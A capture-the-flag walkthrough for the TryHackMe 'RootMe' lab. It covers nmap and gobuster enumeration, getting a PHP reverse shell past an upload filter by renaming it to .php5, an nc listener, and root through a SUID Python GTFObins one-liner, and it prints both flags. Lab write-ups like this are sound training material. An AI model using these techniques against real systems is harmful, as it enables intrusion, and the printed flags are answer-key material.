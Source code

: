 # RootMe (rrootme)

## [RootMe on TryHackMe](https://tryhackme.com/room/rrootme)

## Overview

* **Difficulty:** Easy
* **Category:** Web Exploitation / Privilege Escalation
* **Skills Practiced:** Network enumeration, web directory discovery, file upload exploitation, reverse shell, SUID privilege escalation

## Tools & Techniques

* `nmap` – for port and service scanning
* `gobuster` – for directory brute-forcing
* PentestMonkey's PHP reverse shell – for initial access
* `nc` (netcat) – for the listener
* `find`, SUID file enumeration – for privilege escalation
* GTFObins – to exploit SUID Python for root shell

## Walkthrough (Step-by-Step)

### 1. Deployment & Setup

* Connect to TryHackMe with OpenVPN or use the AttackBox.
* Deploy the **RootMe** machine.

### 2. Reconnaissance

1. **Nmap Scan**

	```bash
	nmap -sC -sV <target-ip>
	```

	**Findings:**

	* Port 22 → OpenSSH 7.6p1 (Ubuntu)
	* Port 80 → Apache httpd 2.4.29 (Ubuntu)

2. **Directory Enumeration (GoBuster)**

	```bash
	gobuster dir -u http://<target-ip> -w <wordlist>
	```

	**Discovered:**

	```
	/panel                (Status: 301) [Size: 310] [--> http://<target-ip>/panel/]
	/uploads              (Status: 301) [Size: 312]
	```

### 3. Getting a Shell

* Navigate to `http://<target-ip>/panel/`; access a file upload form.
* Download the PHP reverse shell script (e.g., PentestMonkey’s version) and configure your attacker's IP and port.
* Since `.php` files are blocked, rename it (e.g., `.php5`).
* Upload via the panel and browse to it under `/uploads/`.
* Start a listener:

	```bash
	nc -lvnp <port>
	```
* Click the uploaded shell—reverse connection granted as `www-data`.
* Use `find / -type f -name user.txt 2>/dev/null` to locate and capture the **user** flag `THM{y0u_g0t_a_sh3ll}`.

### 4. Privilege Escalation

* Enumerate SUID binaries:

	```bash
	find / -perm -u=s -type f 2>/dev/null
	```
* Identify **/usr/bin/python** as suspicious (SUID bit set).
* Look up exploitation method on **GTFObins** — use:

	```bash
	python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
	```
* Gain a root shell.
* Read **root.txt** for the root flag: `THM{pr1v1l3g3_3sc4l4t10n}`.
